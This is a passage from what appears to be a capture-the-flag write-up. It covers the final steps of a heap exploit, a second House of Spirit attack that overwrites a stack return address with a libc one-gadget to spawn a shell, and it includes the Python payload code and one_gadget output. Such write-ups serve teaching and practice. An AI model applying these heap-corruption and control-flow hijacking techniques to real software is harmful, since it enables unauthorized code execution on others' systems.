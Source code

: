 ```python
```

With the stack leak obtained, we can now finally redirect control flow.


#### Step 6: Overwriting the Return Address with a One-Gadget

Armed with the leaked addresses, the final phase is to overwrite a return pointer on the stack with a one-gadget from libc. One-gadgets are specific offsets within libc that, when executed, set up the registers and environment for execve("/bin/sh", ...).  They can be found with the help of the `one_gadget` gem, which uses fancy z3 math for constraint solving.

For our exploit, we choose the one-gadget at offset 0xd63f3. Its constraints are quite managable:

```bash
0xd63f3 execve("/bin/sh", rbp-0x40, r12)
constraints:
  address rbp-0x38 is writable
  rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp
```


To place this one-gadget onto the stack, we perform a second House of Spirits attack to overwrite the return pointer of the alloc function. Our stack leak allows us to compute the exact address of this return pointer by subtracting a known offset (0x130). The payload comprises a new base pointer (a safe heap address) and the one-gadget address, calculated as libc_base + 0xd63f3.

```python
onegadget = libc_base + 0xd63f3
pos = heap_base + 0x0c60
fake_malloc_stack = PROTECT_PTR(pos, stack_ret)

delete(io, D4)
delete(io, D3)

edit(io, D1, D1+b'\x31')
delete(io, D2)
alloc(io, 0x30, D2+b'\x21\x00\x00\x00\x00\x00\x00\x00'+p64(fake_malloc_stack))
edit(io, D1, D1+b'\x21')

alloc(io, 0x20, D3)

PAYLOAD =  p64(heap_base + 0x138) + p64(onegadget)
alloc(io, 0x20, PAYLOAD)
```

Once this payload is written, when the alloc function returns, control flow is redirected to our one-gadget, spawning a shell. 


#### Step 7: Running the Exploit

When run locally, the exploit completes almost immediately. However, running against the server has brute-forcing steps taking about two minutes. Talking about building suspense...
